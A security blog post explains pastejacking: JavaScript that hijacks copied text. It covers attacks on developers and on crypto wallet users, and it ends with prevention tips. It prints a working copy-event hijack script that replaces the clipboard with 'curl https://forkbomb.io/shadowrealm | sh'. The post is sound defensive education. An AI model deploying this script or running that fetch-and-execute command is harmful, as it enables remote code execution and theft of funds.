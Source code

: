 ```yaml
---
layout: post
title: 'Pastejacking Smart Contracts: Replacing Wallet Addresses to Steal Data'
categories: [blog]
tags: crypto cybersecurity
---
```


The last several years have brought incredible gains in the number of cyberattacks waged. These attacks entail a variety of exploits, with some using methods as simple as social engineering. Human behavior is often the weakest link, and a particular javascript exploit takes advantage of trust in a computer’s copy-and-paste functionality.  This form of attack, commonly referred to as [pastejacking](https://www.geeksforgeeks.org/what-is-pastejacking/), can fit into many different cyberattack campaigns. This attack takes advantage of one of the most common user interactions with a computer.

Pastejacking attacks exploit temporary storage memory by replacing copied data stored in device memory with different, often malicious, data. This exploit may take the form of a client-side or a server-side attack. 

Server-side pastejacking attacks may fit within a software supply chain attack: attackers can manipulate a compromised entity to attack downstream users or clients. 
Using methods such as [cross-site scripting (XSS) attacks](https://owasp.org/www-community/attacks/DOM_Based_XSS), an attacker can wage client-side pastejacking attacks, which can be especially effective if targeting developers. Cyberattacks waged on developers often have a high return on investment because capturing developer credentials affords an attacker a significant amount of lateral movement throughout an organization.

## How Javascript Pastejacking Works

For demonstration purposes, let’s take a look at the following Javascript code snippet:
```
<script>
document.getElementById('copied-text').addEventListener('copy', 
function(e) {
    e.clipboardData.setData('text/plain', 
        'curl https://forkbomb.io/shadowrealm | sh\n'
    );
    e.preventDefault();
});
</script>
```

Attackers may execute this code through various means; this attack may be waged on an organization through a form of code tampering or used on individual users through a client-side injection attack.

## Using Pastejacking to Attack Developers

Let’s say a junior programmer is attempting to utilize a code snippet from StackOverflow, which is not an unusual scenario that most software engineers have done at some point in their career. A malicious entity wages an attack against users trying to copy and paste a code snippet from the web browser into their terminal. 

The javascript function as defined above replaces the copied text within the clipboard, thus overriding the in-memory data and replacing it with:  
```
curl https://forkbomb.io/shadowrealm | sh\n
``` 
This string is a curl command that navigates a user to the URL [https://forkbomb.io/shadowrealm](https://forkbomb.io/shadowrealm/), which in this case is a striking yet graceful warning to users. 

Because the pasted snippet includes the string sh\n, the command runs immediately as if the user had manually pressed the return key, thus preventing a user from realizing what is happening until the attack is underway. 

This form of attack can be hazardous as this can be a form of [targeting developers](https://cycode.com/blog/why-developers-are-hackers-new-targets-and-what-to-do-about-it/) who often have elevated credentials. Malicious actors may use a pastejacking attack within systems that do not adhere to principles of least privilege. Developer credentials often allow escalated privileges to accelerate developer velocity. Allowing for greater access within a development ecosystem reduces security between components, thus permitting lateral movement that can give an attacker full access to an organization’s data. This can allow attackers to perform data exfiltration or leak source code; in either case, this will be devastating for an organization’s reputation and finances. 

## Using Pastejacking to Attack Crypto Wallets

More nefarious, if subtle, applications of this technique exist. Let’s consider crypto wallet addresses. These addresses are 26-35 characters long and consist of alphanumeric values. This address is often copied and pasted from one application to another to send crypto assets from one wallet to another. This copy and paste pattern provides a window of opportunity for attackers to wage a client-side injection attack utilizing such a script as defined above. 

Metamask is a popular crypto wallet commonly used for NFT transactions and blockchain applications. This wallet provides convenience to users by existing both in-browser and as a Google Chrome extension. One of the most convenient features is the fact that users can easily copy their crypto wallet address with a single click:

![pastejacking-crypto-wallets-forkbomb-address-theft-defi](_site/assets/image/posts/pastejacking-crypto-wallets-forkbomb-address-theft-defi.png){:class="img-responsive"}

You can probably see where this is going. An insecure website, or nefarious browser extension, running this javascript copy-injection could hijack a user’s transaction by replacing the presented contract address text with another one, such as the attacker’s address, thus redirecting funds to their wallet permanently.

In the case of Metamask, tools such as [LavaMoat](https://github.com/LavaMoat/LavaMoat) are used to prevent software supply chain attacks from being deployed directly on its user base. However, as long as gaps within DevSecOps exist, attackers will find a way to wage attacks on users. Other means of attack, such as cross-site scripting attacks, are still viable pathways to reach individual users. 

## Preventing Crypto Theft 
As users of defi software, we are ultimaly responsible for our own financial safety. We advice several tips to mitigate the risk of crypto theft through pastejacking:
- Always visually inspect the transaction page in MetaMask, or your preferred client before running every transaction. 
- At least double/triple check the first 4 characters of the contract to see that they match up.
- Investigate suspicious contracts, especially if there is high outflow to another contract address.
- If you do a lot of business on ethereum, use services like ENS to map a trusted domain name to your contract address

Unfortunately if you have fallen victim to smart contract fraud, there is little recourse in remediation other than to continue using the platform using the guidance laid out in this post and exhibiting extreme caution when handling any amount of money/value you intend to preserve.

## Key Learnings for Defi Developers

Just like the early stages of Web 1.0 and Web 2.0, underscoring security and trust within Web 3.0 will be the key to its widespread adoption.  The authentication and origination benefits that wallets such as MetaMask provide are compelling, however, they must be implemented with security in mind. For decentralized service providers, steps need to be taken to prevent code tampering, avoid unsafe development prctices, and protect those using the service.

